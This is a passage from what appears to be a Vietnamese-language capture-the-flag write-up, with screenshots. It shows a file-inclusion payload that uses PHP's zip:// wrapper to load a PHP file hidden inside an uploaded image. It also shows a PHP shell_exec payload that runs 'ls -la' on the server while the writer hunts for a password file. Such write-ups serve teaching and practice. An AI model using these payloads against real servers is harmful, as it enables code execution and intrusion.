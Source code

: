 ***Payload:** ?page=zip://tmp/upload/XoMA4xJDj.jpg%23**t.php***

<img src="./media/image8.png" style="width:6.5in;height:3.85256in" alt="Graphical user interface, text, application Description automatically generated" />

Source không có thông tin gì liên quan đến password cả, giờ thì ta phải thử tìm trong folder chứ index.php vì có thể sẽ có file khác nhưng ta không Path Traversal đc:

**Payload:** *&lt;pre&gt;&lt;?php shell\_exec('ls -la') ?&gt;&lt;/pre&gt;;*

<img src="./media/image9.png" style="width:6.5in;height:2.02153in" alt="Graphical user interface, text, application Description automatically generated" />
